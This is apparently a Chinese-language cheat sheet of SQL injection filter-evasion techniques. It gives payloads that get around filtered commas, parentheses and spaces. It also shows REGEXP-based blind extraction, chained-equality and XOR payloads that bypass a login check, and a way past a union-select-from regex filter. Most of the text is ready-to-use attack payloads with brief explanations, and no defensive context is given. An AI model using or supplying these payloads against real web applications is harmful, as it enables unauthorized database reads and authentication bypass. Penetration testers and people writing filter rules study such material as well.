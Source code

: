 ### 碰到 “,” 逗号被过滤的情况.

- SUBSTR(password FROM 3 FOR 1) 等同于SUBSTR(PASSWORD,3,1)
- SUBSTR(password FROM 2) 等同于 SUBSTR(PASSWORD,2)
- substr(database()from(3)for(1)) 等同于 mid(database()from(3)for(1))
- limit 1,1 中的逗号用limit 1 offset 1

使用 join

```
SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d;
```

### 括号被过滤的情况

在盲注中，如果过滤了括号()，那么将无法使用substr等函数，于是无法正常的逐字节读取字段内容，此时可以使用

```
SELECT * FROM users WHERE name NOT REGEXP '^h'
SELECT * FROM users WHERE name NOT REGEXP '^hh'
SELECT * FROM users WHERE name NOT REGEXP '^hhh'
```

根据盲注的结果，判断字段是否和某个正则表达式匹配，这样逐字节判断字段的值。

regexp相当于rlike，使用REGEXP，NOT REGEXP，RLIKE，NOT RLIKE绕过对括号的过滤


### 过滤空格
- 控制字符替代法 %20 %09 %0A %0B %0C %0D %A0 
- 符号替代法 /**/、select.``.password、select+user()
- 括号组合法 union(select(1),2)、select{x(password)}from{x(user)}

### 连续运算绕过

使用连续等号
```
SELECT * from users where username='-1'='' and password='-1'=''
```

从左到右运算，先计算username='-1'，一般数据库里不会有'-1'，故该值为0。再计算0=''，得到值为1。password='-1'=''同理。

也可以使用异或的方式，原理与连续等号相同

```
SELECT * from users where username=admin'^(substring((select(user()))from(1))='a')^'1'
```

### union  select from

只要按照union  select from 的顺序出现，就被过滤

```
/union([\s\S]+)select([\s\S]+)from/i
```

绕过方法

```
id=1=2|@c:=(select(1))union(select@c)
```
